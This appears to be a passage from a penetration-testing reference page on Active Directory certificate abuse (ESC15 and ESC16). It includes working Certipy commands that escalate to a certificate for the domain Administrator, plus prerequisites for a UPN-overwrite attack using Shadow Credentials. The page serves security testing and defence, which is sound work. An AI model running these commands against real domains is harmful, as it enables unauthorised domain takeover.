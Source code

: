 You can see the ESC15 as an [ESC2](certificate-templates.md#any-purpose-eku-esc2) with more steps.

::: tabs

=== UNIX-like

From UNIX-like systems, [this pull request on Certipy](https://github.com/ly4k/Certipy/pull/228) (Python) can be used to enumerate for, and conduct, the ESC15 scenario. 

```bash
# Request a certificate with "Certificate Request Agent" application policy
certipy req -u $USER@$DOMAIN --application-policies "1.3.6.1.4.1.311.20.2.1" -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP

# Use the certificate in a ESC3 scenario to ask for a new certificate on behalf of another user
certipy req -u $USER@$DOMAIN -on-behalf-of $DOMAIN\\Administrator -template User -ca $CA_NAME -pfx cert.pfx -dc-ip $DC_IP

# Authenticate with the last certificate
certipy auth -pfx administrator.pfx -dc-ip $DC_ADDR
```

=== Windows

_At the time of writing, no solution exists to perform this attack from a Windows machine._

:::

### (ESC16) Security Extension Disabled on CA

The ESC16 vulnerability is introduced when a CA is configured to disable the inclusion of the OID `1.3.6.1.4.1.311.25.2` (security extension) in all the certificate it issues or if the `KB5014754` patch has not been applied.
This flaw makes the CA behave as if all it's published template were vulnerable to the ESC9 vector.

There are two possible attacks scenarios for exploiting ESC16. In all cases, **one** of the following prerequisites must be met:

> [!WARNING]
> * `szOID_NTDS_CA_SECURITY_EXT` (`OID 1.3.6.1.4.1.311.25.2`) included into the `policy\DisableExtensionList` of the CA.
> * The `KB5014754` May 2022 patch isn't applied, which implies that `szOID_NTDS_CA_SECURITY_EXT` cannot be issued by the CA.


#### (ESC16 A) Compatibility mode

In this scenario, the attacker has a `GenericWrite` permission over a victim which can be used to overwrite the victim's UPN.
Using the victim's NT hash obtained via a [Shadow Credentials](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials.md#shadow-credentials) attack,
it's possible to request a certificate to the CA on it's behalf. Thanks to the UPN manipulation, a valid certificate can be obtain for every user of the domain.

To conduct this scenario, the following additional prerequisites must be met:
> [!WARNING]
> * For PKINIT, `StrongCertificateBindingEnforcement` is set to `0` or `1`. This will cause the KDC to check only the UPN of the SAN included into the certificate request
> * The *attacker user* needs to have a `GenericWrite` or equivalent permission over the *victim user* 
